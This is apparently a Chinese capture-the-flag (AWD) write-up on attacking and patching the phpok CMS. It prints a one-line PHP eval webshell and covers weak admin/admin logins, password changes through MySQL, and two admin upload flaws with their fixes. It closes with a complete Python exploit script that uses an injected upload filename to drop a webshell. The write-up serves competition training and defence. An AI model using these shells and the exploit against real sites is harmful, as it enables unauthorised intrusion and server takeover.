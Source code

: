 # bugkuAWD-14-phpok

## 一句话木马

WEB服务打的是phpok cms, 上来通过D盾扫到一个小马

```
/var/www/html/css/images/yijuhua.php: <?php eval($_POST["test"]);?>
```

利用小马批量上传shell和不死马进行维权

后台通过账号/弱密码 admin/admin 登录, 进入后选项上可以修改密码, 或者直接在 mysql 中修改密码, 密码存储形式为 md5

```
mysql -uroot -proot
show databases;
use phpok;
show tables;
select * from qinggan_user;
update qinggan_user set pass='xxx' where id=id;
```

批量修改密码就无法进入后台了

## 后台上传漏洞

访问附件管理分类

![20210601201343198](D:\safetool\Tools\Web2\github\Rickyweb\bugkuAWD\img\20210601201343198.png)

编辑附件分类, 添加 php

![20210601201657374](D:\safetool\Tools\Web2\github\Rickyweb\bugkuAWD\img\20210601201657374.png)

内容管理 > 咨询中心 ![20210601201711244](D:\safetool\Tools\Web2\github\Rickyweb\bugkuAWD\img\20210601201711244.png)

编辑文章

![20210601202201045](D:\safetool\Tools\Web2\github\Rickyweb\bugkuAWD\img\20210601202201045.png)

选择图片![20210601202226348](D:\safetool\Tools\Web2\github\Rickyweb\bugkuAWD\img\20210601202226348.png)

本地上传

![20210601202241996](D:\safetool\Tools\Web2\github\Rickyweb\bugkuAWD\img\20210601202241996.png)

上传后查看文件路径

![20210601202317864](D:\safetool\Tools\Web2\github\Rickyweb\bugkuAWD\img\20210601202317864.png)

这样就把木马传上去了, 只要拥有后台的 cookie 就可以随时使用了, 漏洞在 `/framework/admin/rescate_control.php`

```
		foreach($list_filetypes as $key=>$value){
			$value = trim($value);
			if(!$value){
				unset($list_filetypes[$key]);
				continue;
			}

            if(!preg_match("/[a-z0-9\_\.]+/",$value)){
                $this->json(P_Lang('附件类型设置不正确，仅限字母，数字及英文点符号'));
            }

		}
```

只检测了后缀是否符合标准并没有检测 php 后缀, 所以只需要在这一块禁用 php 即可

```
if(preg_match('#.+\.ph(p[3457]?|t|tml)$|/#is',$value)) {
                $this->json(P_Lang('禁止该后缀上传!'));
            }
```

## 后台升级压缩包漏洞

程序升级 > 选择本地文件 > 上传离线包升级

![20210601211005387](D:\safetool\Tools\Web2\github\Rickyweb\bugkuAWD\img\20210601211005387.png)

系统会自动解压在 html 目录, 访问上传的 php 文件即可, 该漏洞在 `/framework/admin/update_control.php`

```
	//解压zip
	public function unzip_f()
	{
        $zipfile = $this->get('zipfile');
		if(!$zipfile){
			$this->error(P_Lang('未指定附件文件'));
		}
		if(strpos($zipfile,'..') !== false){
			$this->error(P_Lang('不支持带..上级路径'));
		}
		if(!file_exists($this->dir_root.$zipfile)){
			$this->error(P_Lang('ZIP文件不存在'));
		}
		$this->lib('phpzip')->unzip($this->dir_root.$zipfile,'data/update/');
		$info = $this->update_load();
		if(!$info || (is_array($info) && $info['status'] == 'error')){
			$this->error($info['content']);
		}
		$this->success();
	}
```

比赛期间直接禁用该功能就好了, 不会被 check down, 在函数开头直接 die

```
die('hacker');
```

## 其余

还有一个**插件上传漏洞**, 但是比赛测试发现用官方给的插件也无法安装, 所以暂时无法利用...一直显示插件安装异常, 如果可以安装上去将会在 plugins 文件夹下得到解压的 php 文件, 访问即可

前台还有一个文件上传漏洞, 暂时没利用上, 貌似挺复杂的, 说是前台可以未注册直接上传文件(因为这个 cms 注册之后还需要管理员审核, 基本通过注册进入是不可能的), 贴一下大佬的脚本(能利用上最好)

```python
#-*- coding:utf-8 -*-
import requests
import sys
import re
if len(sys.argv) < 2:
    print u"Usage: exp.py url [PHPSESSION]\r\nFor example:\r\n[0] exp.py http://localhost\r\n[1] exp.py http://localhost 6ogmgp727m0ivf6rnteeouuj02"
    exit()
baseurl = sys.argv[1]
phpses = sys.argv[2] if len(sys.argv) > 2 else ''
cookies = {'PHPSESSION': phpses}
if baseurl[-1] == '/':
    baseurl = baseurl[:-1]
url = baseurl + '/index.php?c=upload&f=save'
files = [
    ('upfile', ("1','r7ip15ijku7jeu1s1qqnvo9gj0','30',''),('1',0x7265732f3230313730352f32332f,0x393936396465336566326137643432352e6a7067,'',0x7265732f62616c69736f6e672e706870,'1495536080','2.jpg",
                '<?php phpinfo();?>', 'image/jpg')),
]
files1 = [
    ('upfile',
     ('1.jpg', '<?php phpinfo();?>', 'image/jpg')),
]
r = requests.post(url, files=files, cookies=cookies)
response = r.text
id = re.search('"id":"(\d+)"', response, re.S).group(1)
id = int(id) + 1
url = baseurl + '/index.php?c=upload&f=replace&oldid=%d' % (id)
r = requests.post(url, files=files1, cookies=cookies)
shell = baseurl + '/res/balisong.php'
response = requests.get(shell)
if response.status_code == 200:
    print "congratulation:Your shell:\n%s\npassword:balisong" % (shell)
else:
    print "oh!Maybe failed.Please check"
```




